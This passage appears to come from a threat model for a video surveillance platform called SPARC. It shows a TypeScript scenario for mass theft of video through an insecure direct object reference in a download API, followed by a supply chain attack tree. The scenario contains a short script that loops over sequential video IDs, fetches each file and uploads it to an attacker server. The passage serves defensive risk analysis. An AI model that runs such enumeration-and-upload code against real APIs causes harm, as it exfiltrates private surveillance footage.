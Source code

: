 **Scenario 3: Video Data Exfiltration**
```typescript
// Attack simulation
export const videoExfiltrationScenario = {
  name: "Mass Video Data Theft",
  description: "Attacker exploits API to download surveillance footage",
  attackVector: {
    vulnerability: "IDOR in video access API",
    exploit: {
      endpoint: "/api/video/download/{videoId}",
      method: "Sequential ID enumeration",
      bypass: "Predictable video IDs, no access control validation"
    }
  },
  attack_automation: `
    // Automated exfiltration script
    for (let i = 1000000; i < 2000000; i++) {
      const videoUrl = \`/api/video/download/\${i}\`;
      fetch(videoUrl)
        .then(res => res.blob())
        .then(blob => uploadToAttackerServer(blob));
    }
  `,
  impact: {
    data_volume: "10TB of video footage",
    privacy_impact: "CRITICAL",
    regulatory_fines: "$5-10M",
    legal_liability: "Class action lawsuit risk"
  }
};
```

### 4. Supply Chain Attacks

#### Attack Tree: Supply Chain Compromise
```
Goal: Compromise SPARC Supply Chain
├── Third-Party Dependencies
│   ├── NPM Package Poisoning
│   ├── Docker Image Backdoor
│   └── Compromised CDN Assets
├── Development Tools
│   ├── CI/CD Pipeline Compromise
│   ├── Source Code Repository
│   └── Build Server Infiltration
└── Infrastructure Providers
    ├── Cloud Account Takeover
    ├── DNS Provider Compromise
    └── Certificate Authority Attack
```

### 5. Physical Security Attacks
